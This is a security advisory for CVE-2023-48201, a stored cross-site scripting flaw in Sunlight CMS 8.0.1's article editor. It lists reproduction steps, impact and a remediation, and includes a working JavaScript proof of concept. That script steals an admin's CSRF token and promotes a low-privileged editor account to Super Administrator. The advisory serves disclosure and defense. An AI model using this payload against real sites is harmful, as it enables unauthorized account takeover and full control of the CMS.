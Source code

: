 # CVE-2023-48201: Stored Cross-Site Scripting (XSS) in Create/Edit Article function in Sunlight CMS 8.0.1 

> https://github.com/sunlight-cms/sunlight-cms

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 8.0 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

# Description
A user that is in the 'Editors' group or any group that can create and edit Articles, is able to inject malicious Javascript code to the 'Content' text editor. After the Article is approved and an Administrator or Super Administrator views the Article, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and add it to the group 'Editors'.
2. Create an article as the user 'editor1'.
3. Approve the Article as a Super Administrator.
4. Inject the malicious code in the article as user 'editor1'.
5. View the Article as Super Administrator.
6. Verify that the user 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can create/edit Articles can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize Article content before inserting it in the database.

# Proof of Concept code
Add the article text in HTML and then add the following code:

```js
<script>
/* Get a CSRF token from the change account form and use it to escalate a user to Super Admin */
var csrf_token;
var xhrGET_users_edit = new XMLHttpRequest();
xhrGET_users_edit.responseType = "document";
xhrGET_users_edit.onreadystatechange = function() {
	if (this.readyState == 4 && this.status == 200) {
		// Typical action to be performed when the document is ready:
		var doc = this.responseXML ;
		csrf_token = doc.getElementsByName("_security_token")[0].value;
		//console.log(csrf_token);
        
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&id=editor1", true);
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
        xhr.withCredentials = true;
        var body = "username=editor1&publicname=editor1&email=editor1%40test.tk&password=&group_id=1&wysiwyg=1&public=1&note=&_security_token="+csrf_token;
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
            aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
	}
};
xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&id=editor1", true);
xhrGET_users_edit.send();
</script>
```

# References
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48201
- https://github.com/sunlight-cms/sunlight-cms/commit/f08e9fa24ad61efc162bdb56119074fa31055762
- https://nvd.nist.gov/vuln/detail/CVE-2023-48201
